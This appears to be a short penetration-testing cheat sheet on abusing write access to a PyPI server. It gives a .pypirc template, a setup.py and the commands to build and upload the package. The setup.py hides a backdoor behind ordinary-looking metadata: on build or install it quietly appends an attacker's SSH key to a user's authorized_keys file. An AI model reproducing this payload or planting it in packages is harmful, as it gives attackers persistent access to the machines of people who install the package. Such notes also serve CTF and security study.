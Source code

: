 Abusing_pypi_server

## Have access to a pypi server and can upload files ?

- Install setuptools, twine and wheel on your attacking machine

- Create a .pypirc file in the $HOME directory :
```
[testpypi]
    repository: \<url_of_the_server\>
    username: \<username\>
    password: \<password\>
```

- Create a setup.py file :
```
import setuptools

try:
    with open("/home/low/.ssh/authorized_keys", "a") as f:
        f.write("mysshkey")
        f.close()

except Exception as e:
    pass

setuptools.setup(
    name="t0",
    version="0.0.1",
    author="Example Author",
    author_email="author@example.com",
    description="A small example package",
    long_description="",
    long_description_content_type="text/markdown",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    )
```

- ```python3 setup.py sdist bdist_wheel```
- ```python3 -m twine upload --repository testpypi dist/*```